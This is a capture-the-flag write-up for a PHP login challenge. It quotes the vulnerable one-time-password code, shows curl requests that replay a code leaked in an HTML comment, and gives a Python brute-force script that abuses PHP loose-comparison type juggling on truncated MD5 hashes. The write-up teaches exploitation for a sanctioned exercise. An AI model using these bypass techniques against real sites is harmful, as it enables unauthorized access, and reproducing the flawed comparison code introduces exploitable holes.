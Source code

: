# Web 500 - Sith Portal

## Challenge Text:

We have found the login page for the Sith. 

If we can get administrative access to this web server, the information we could gain would be invaluable. 

Our reconnaissance team was able to get some information that may be of use to you: 

1. The email addresses associated with the Sith's accounts use the domain: `@galacticempire.com`

2. Since there are not many Siths, the length of their email is pretty sort -only 3 characters
<pre>
ex: `aaa@galacticempire.com`
</pre>

3. Some of the code used to build the web server was recovered. We have attached the zip file. 

[Link to Sith's Portal](https://challenges.silicon-ctf.party/web500/index.php)

## Hints

1. Look at all authentcation mechanism

2.  [Check out this slide deck](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

    Think about what variables you can control

## How To Solve: 

There were two ways to solve this problem.

The most straight-forward way is to look through the source code and find there are two ways of authenticating. 

1. Logging in 
2. Some kind of one-time-password that is generated from the hash of a couple values. Both ones controlled by the end user and ones pulled from the database. 

The function that handles the one-time-pass authenication can be found in the `auth.php` file. 

```php
 function check_one_time_login($uname,$otp,$id, $e){
     if (!check_email($e)){
         return false;
     }
     $code = substr(hash("md5",$id . retreive_hash($uname) . get_otp_date($uname) . $e),0,10);
     echo '<!--  authorization_code: '.$code . ' -->'; 
    if ($code == $otp){
        return true;
    }
    else{
        return false;
    }
 }
 ```

 Looking at this code, you can determine that the "authorization code" is printed out to the html when an attempt is made this way. 

 You can make a POST request to trigger this function like this: 

 `curl -X POST -d 'uname=admin&psw=test&otp=1&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php`

 In the response you will see:

 `<!--  authorization_code: 15c6ff07e2 --><h6>Incorrect OTP</h6>`

 You can then take this auth code, and feed it back into your request: 

 `curl -X POST -d 'uname=admin&psw=test&otp=15c6ff07e2&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php`

 This will give you the flag. 


 ---

 The second way to go about solving this challenge is through type juggling. 

 The idea being that you change the variables provided to function to generate the hash and eventually you will generate a hash value that `==` 0. In PHP, the loose comparison operation of `==` does not check type before doing comparisons. So with `==` you could have 

 ![ ](solution_images/type.png)

 The code to solve this problem this way is avaiable here: 

 ```python
import requests
import string
import itertools
import time
import re
import hashlib

url = "https://challenges.silicon-ctf.party:443/web500/index.php"
count=1
for email in map(''.join, itertools.product(string.ascii_lowercase, repeat=int(3))):
   data = {"uname": "admin", "otp": "0", "e":f"{email}@galacticempire.com", "id":"1"}
   res=requests.post(url, data=data)
   if res.status_code != 200:
       print('\nRan into error - may need to slow down')
       break
   if "Incorrect OTP" in res.text:
       print(f'Attempt {email}@galacticempire.com ... Try #{count} ', end="\r")

   else:
       print(f'\n[*] Found bypass with: {email}@galacticempire.com')
       with open('out.html','w') as f:
           f.write(res.text)
       break
   count+=1

```
Running this, you will see that the hash generated with the email: `amk@galacticempire.com` is 0e39042609. Which in php makes the statement `0e39042609 == 0` equate to true. Thereby bypassing the authentication. 